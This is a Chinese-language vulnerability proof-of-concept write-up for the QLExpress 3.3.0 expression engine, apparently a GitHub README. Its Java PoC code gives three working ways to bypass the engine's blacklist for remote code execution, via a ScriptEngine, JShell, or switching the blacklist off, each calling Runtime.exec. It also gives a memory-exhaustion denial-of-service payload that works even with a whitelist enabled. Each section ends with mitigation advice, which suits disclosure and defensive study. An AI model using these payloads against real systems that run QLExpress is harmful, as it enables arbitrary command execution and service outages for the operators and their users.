 # QLExpress-3.3.0-vuln-poc

## 针对1级防御

### RCE

#### POC

针对黑名单的绕过，我总结了下三种无外部依赖的绕过姿势，以下是poc

```java
package vuln;

import com.ql.util.express.DefaultContext;
import com.ql.util.express.ExpressRunner;
import com.ql.util.express.config.QLExpressRunStrategy;

/**
 * 黑名单绕过
 */
public class Test1 {
    public static void main(String[] args) throws Exception {
        // 开启黑名单
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();

//        使用ScriptEngineManager绕过黑名单
//        String payload1_1 = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\");";
//        String payload1_2 = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);\")";


//        Jdk>9时采用jShell绕过
//        String payload2 = "jdk.jshell.JShell.create().eval('java.lang.Runtime.getRuntime().exec(\"open -a calculator.app\")')";

//        利用QLExpressRunStrategy关闭黑名单
        String payload3 = "import com.ql.util.express.config.QLExpressRunStrategy;QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(false);Runtime.getRuntime().exec(\"open -a calculator.app\");";
        runner.execute(payload3, new DefaultContext<>(), null, false, true);
    }
}

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/8248fac22d1e46b0a0161885224fece9.png)

#### 修复建议

- 建议加强原本的黑名单

- ```java
  SECURITY_RISK_METHOD_LIST.add(QLExpressRunStrategy.class.getName()+".setForbidInvokeSecurityRiskMethods");
  SECURITY_RISK_METHOD_LIST.add("jdk.jshell.JShell.create");
  SECURITY_RISK_METHOD_LIST.add("javax.script.ScriptEngineManager.getEngineByName");
  SECURITY_RISK_METHOD_LIST.add("org.springframework.jndi.JndiLocatorDelegate.lookup");
  ```

  

---

## 针对2级防御

### DoS

#### POC

在阅读防御措施相关代码后，我发现黑白名单的本质防御其实是对方法(`Method`)的禁用。当用户指定可执行方法的白名单时，确实能有效防御许多代码执行的方法。

但存在下面这种情况，可以造成OutOfMemoryError，导致堆内存泄漏，进而其他应用无法使用堆内存，从而导致DOS，也就是服务不可用(拒绝服务)。

以下是POC

```java
public class Test2 {
    public static void main(String[] args) throws Exception {
      	// 开启白名单，并指定使用特定安全方法
        QLExpressRunStrategy.setForbidInvokeSecurityRiskMethods(true);
        QLExpressRunStrategy.addSecureMethod(RiskBean.class, "secureMethod");
        ExpressRunner runner = new ExpressRunner();
        DefaultContext<String, Object> context = new DefaultContext<String, Object>();
        String code = "byte[] bytes = new byte[2147483645];for (i=0;i<2147483645;i++) {new String(bytes);}";
        runner.execute(code, new DefaultContext<>(), null, false, true);
    }
}

```

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea53466810b0416b9c994965c8a48d80.png)

#### 修复建议

- 当攻击者使用脚本多次像服务中发送恶意POC时，会导致DoS。这种攻击绕开了黑白名单的方法执行，而是直接申请堆内存空间。
- 对此防御措施应该为当解释代码并执行时遇到OutOfMemoryError错误时应当捕获这个Throwable，并关闭掉runner的excute功能，防止服务中其他服务不可用(造成更大的危害)。


